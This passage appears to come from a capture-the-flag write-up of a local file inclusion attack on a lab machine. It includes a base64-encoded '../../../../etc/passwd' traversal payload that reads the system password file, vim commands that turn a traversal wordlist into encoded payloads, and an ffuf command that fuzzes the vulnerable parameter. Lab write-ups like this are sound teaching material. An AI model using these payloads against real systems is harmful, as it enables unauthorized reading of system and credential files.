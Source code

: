 And all those payloads are base64 encoded, when I try with the first payload `Li4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==`, and it is `../../../../etc/passwd` encoded with `base64`, then I see the `/etc/passwd` file:

![evidence](./static/04-etc-passwd.png)

And I can identify the users `underdist` and `cuervo`, when I use the list `LFI-gracefulsecurity-linux.txt` of Seclists, but I need to encode all paths, then I will use `vim` to modify the file, when I open the list `LFI-gracefulsecurity-linux.txt` with `vim`, and I use the following commands in the `COMMAND` mode:
```vim
:%s!^!../../../..!
:%g/^/.!tr -d '\n' | base64
```
Then I add the `../../../..` to the beginning of each line, and I convert each line to `base64`, and I make sure I do not encode the break line `\n`, when I use the new list with the `ffuf` command:
```shell
$ ffuf -w LFI-gracefulsecurity-linux.b64.txt:FUZZ -u \
> "http://192.168.2.38/v.php?a=FUZZ"
```
Then I can see several matches:
